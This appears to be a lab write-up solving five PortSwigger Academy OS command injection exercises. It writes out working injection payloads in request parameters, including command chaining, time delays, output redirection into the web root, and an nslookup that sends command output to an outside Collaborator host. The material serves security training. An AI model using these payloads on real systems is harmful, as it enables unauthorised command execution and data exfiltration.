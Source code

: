 # OS command injection

## OS command injection, simple case

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-simple) contains an OS command injection vulnerability in the product stock checker: The application executes a shell command containing user-supplied product and store IDs, and returns the raw output from the command in its response. 

### Proof of Concept

1. Use Burp Suite to intercept and modify a request that checks the stock level. 
2. Modify the `storeID` parameter, giving it the value `1|whoami`. 
3. Observe that the response contains the name of the current user.

### Exploitability

An attacker will need to execute the `whoami` command to determine the name of the current user.

----

## Blind OS command injection with time delays

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. 

### Proof of Concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the `email` parameter, changing it to: `email=x||ping+-c+10+127.0.0.1||`
3. Observe that the response takes 10 seconds to return.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to cause a 10 second delay. 

----

## Blind OS command injection with output redirection

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection) contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:

    /var/www/images/

The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file. 

### Proof of Concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=||whoami>/var/www/images/output.txt||`
3. Now use Burp Suite to intercept and modify the request that loads an image of a product.
4. Modify the filename parameter, changing the value to the name of the file you specified for the output of the injected command: `filename=output.txt`
5. Observe that the response contains the output from the injected command.

### Exploitability

An attacker will need to execute the `whoami` command and retrieve the output. 

----

## Blind OS command injection with out-of-band interaction

### Description

[This lab](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band) contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

### Proof of Concept

1. Use Burp Suite to intercept and modify the request that submits feedback.
2. Modify the email parameter, changing it to: `email=x||nslookup+x.burp-collab-subdomain||`
3. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated in the modified email parameter.

### Exploitability

An attacker will need to exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server._

_Note: The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup. _

----

## Blind OS command injection with out-of-band data exfiltration

### Description

This lab contains a blind OS command injection vulnerability in the feedback function. The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

### Proof of Concept

1. Use Burp Suite Professional to intercept and modify the request that submits feedback.
2. Go to the Collaborator tab.
3. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
4. Modify the `email` parameter, changing it to something like the following, but insert your Burp Collaborator subdomain where indicated:

```
email=||nslookup+`whoami`.burp-collab-subdomain||
```
    
5. Go back to the Collaborator tab, and click "Poll now". You should see some DNS interactions that were initiated by the application as the result of your payload. If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
6. Observe that the output from your command appears in the subdomain of the interaction, and you can view this within the Collaborator tab. The full domain name that was looked up is shown in the Description tab for the interaction.
7. To complete the lab, enter the name of the current user.

### Exploitability

An attacker will need to execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator, and then enter the name of the current user to complete the lab. _Note: To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server (or a C2)._


